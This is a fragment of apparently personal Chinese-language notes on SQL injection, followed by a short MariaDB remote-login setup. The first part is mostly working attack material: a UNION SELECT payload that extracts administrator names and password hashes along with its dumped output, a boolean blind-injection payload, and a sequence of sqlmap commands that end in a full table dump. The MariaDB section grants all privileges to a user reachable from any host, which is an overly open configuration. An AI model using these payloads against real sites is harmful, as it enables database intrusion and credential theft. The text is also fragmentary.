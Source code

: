 id,m_name,m_pwd,c_date 

 

?id=-1 union select 1,2,3,4,5,6,7, 

group_concat(**m_name,0x7e,m_pwd**) 

,9,10 from **manage_user** limit 0,1 

 

admin~21232f297a57a5a743894a0e4a801fc3 

 ## 布尔注入

' or ascii(substr(database(),1,1)) > 105# 

判断 

## sqlmap指令

1. 扫描数据库名，用于获取数据库的名称

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" --current-db
   ```

2. 扫描本数据库的表

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> --tables
   ```

3. 扫描数据库表的列

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> -T <table> --columns
   ```

4. 获取数据库表中列的信息

   ```bash
   sqlmap -u "<url>" --cookie="<cookie value>" -D <Database> -T <table> -C <column1>,<column2>,... --dump
   ```

   

# MariaDB 远程登陆

## 创建远程登陆用户

一般MariaDB不允许远程直接登录root账户，因此需要在本地创建一个账户用于登录远程MariaDB服务器。使用以下指令创建用户并授予权限，从而进行远程登陆。

```mysql
CREATE USER 'new_username'@'%' IDENTIFIED BY 'new_password';
# 创建用户，'%'表示允许从任何主机连接

GRANT ALL PRIVILEGES ON *.* TO 'new_username'@'%' WITH GRANT OPTION;
# 授予所有数据库的权限，*.*就是所有数据库，如果是某个数据库，则是"db_name.*"

FLUSH PRIVILEGES;
# 刷新权限
```

